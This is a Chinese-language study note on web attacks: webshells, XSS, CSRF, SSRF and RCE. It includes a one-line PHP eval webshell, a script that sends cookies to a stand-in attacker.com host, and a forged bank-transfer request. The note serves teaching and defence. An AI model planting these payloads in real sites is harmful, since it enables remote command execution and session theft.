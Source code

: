 

### webshell

它允许攻击者通过浏览器远程访问和执行系统命令、文件操作、数据库操作等

```php+HTML
<?php @eval($_GET['cmd']); ?>
```



## 跨站脚本（XSS）

跨站脚本（Cross-Site Scripting，简称XSS。第一个字母改为X以避免和样式层叠表CSS冲突）是网站显示用户输入（比如显示评论）时，字符串被浏览器误当作代码解析执行从而产生危害。例如下面的文本若被当作javascript执行，将在用户不知情之下将Cookie发送到攻击者服务器，攻击者可以用它进行会话劫持攻击

```html
<script>
    var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
</script>
```

XSS只能影响到用户前端，无法直接作用于服务器

- **反射型**：恶意代码写在URL内，如`example.com?q=<script>alert(1);</script>`，打开此链接便收到攻击。易受攻击的功能有搜索等
- **存储型**：恶意代码存储在服务器中，打开对应页面便受到攻击。易受攻击的功能有评论、文章、用户个人资料等
- **DOM型**：污染动态加载的数据，则浏览器解析数据时就会受到攻击。易受攻击的功能有前端渲染搜索、聊天等

### 防护手段

检测

## 跨站请求伪造（CSRF）

跨站请求伪造（Cross-Site Requet Forgery，CSRF）利用用户浏览器的Cookie，以用户名义在目标网站上执行攻击操作。例如：

1. 用户登录银行网站，会话保持有效
2. 用户访问攻击者的恶意页面，该页面隐藏一个自动提交的请求，如`<img src="http://bank.com/transfer?to=attacker&amount=1000 />"`
3. 用户的浏览器自动携带Cookie发送请求，银行网站误认为是合法操作，执行转账

防御措施通常有：

- CSRF Token
- SameSite Cookie
- 验证Referer

## 服务器端请求伪造（SSRF）

服务器端请求伪造（Server-Side Request Forgery，SSRF）是攻击者通过操纵服务器发出请求获取敏感信息

## 远程代码执行（RCE）

远程代码执行（Remote Code Execution，RCE），也叫任意代码执行（Artibrary Code Execution，ACE）。网站使用`eval`等函数时，若用户可控制参数，则可以执行任意代码
